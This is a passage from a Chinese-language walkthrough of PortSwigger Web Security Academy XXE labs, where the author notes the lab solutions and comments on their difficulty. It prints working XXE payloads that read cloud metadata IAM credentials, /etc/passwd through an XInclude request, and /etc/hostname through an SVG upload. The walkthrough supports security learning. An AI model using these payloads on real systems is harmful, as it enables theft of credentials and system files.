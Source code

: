 所以我們要順著這個目錄一層一層往下移動，最後成功構造

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Lab: Exploiting XInclude to retrieve files

| Dimension | Description                                                  |
| --------- | ------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/xxe#xinclude-attacks    |
| Lab       | https://portswigger.net/web-security/xxe/lab-xinclude-attack |

這題簡單到我還沒意識到就通關了

```js
fetch(
  "https://0a95003503688eab825c4374001800ee.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

不過我很想吐槽的是，這根本是盲注（？誰會知道 API 的 productId 欄位會在 Backend 被轉成 XML，這比 SQLi 還不直覺啊（？也有可能是我太菜...

## Lab: Exploiting XXE via image file upload

| Dimension | Description                                                          |
| --------- | -------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/xxe#xxe-attacks-via-file-upload |
| Lab       | https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload     |

這題利用 Server 的 XML Parser，會把圖片轉成 PNG，記得要讓 `<text>` 在 `<svg>` 的 `viewBox` 內，並且文字要盡可能的大一點，因為這題的 Server 把圖片轉成 PNG 以後會變超模糊，所以文字太小會看不到

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
<svg xmlns="http://www.w3.org/2000/svg" width="500" height="200" viewBox="0 0 500 200">
    <text x="10" y="50" font-size="50" fill="black">&xxe;</text>
</svg>
```
